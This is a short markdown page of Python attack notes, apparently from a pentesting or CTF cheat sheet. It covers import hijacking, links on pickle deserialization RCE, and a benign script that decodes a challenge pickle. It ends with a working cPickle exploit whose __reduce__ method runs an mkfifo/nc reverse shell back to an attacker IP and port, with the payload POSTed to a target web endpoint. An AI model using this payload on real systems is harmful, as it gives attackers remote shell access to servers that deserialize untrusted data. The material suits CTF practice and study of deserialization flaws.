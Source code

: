 # Python

## Challenges

- <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

## Exploiting Imports

It is possible to create a `.py` file named with the name of the import. This will load the local file (same dir as the file importing the library) instead of the actual library.

## cPickle RCE

- [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)
- [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
- <https://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/>
- <https://blog.nelhage.com/2011/03/exploiting-pickle/>
- <https://stackoverflow.com/questions/38307636/can-anyone-explain-me-the-example-of-an-exploit-in-python-s-pickle-module>
- HTB - DevOps
- HTB - Challenge - Mics - Long Bottom's Locker

## Process pickle file

> - <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

```python
#!/usr/bin/python3
import sys
import pickle

f = open(sys.argv[1], 'rb')
mydict = pickle.load(f)
f.close

for line in mydict:
    print("".join([k * v for k, v in line]))

for i in mydict:
    b=[]
    for x in i:
        #print x
        b.append(x[0] * x[1])

    print("".join(b))
```


```python
import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```
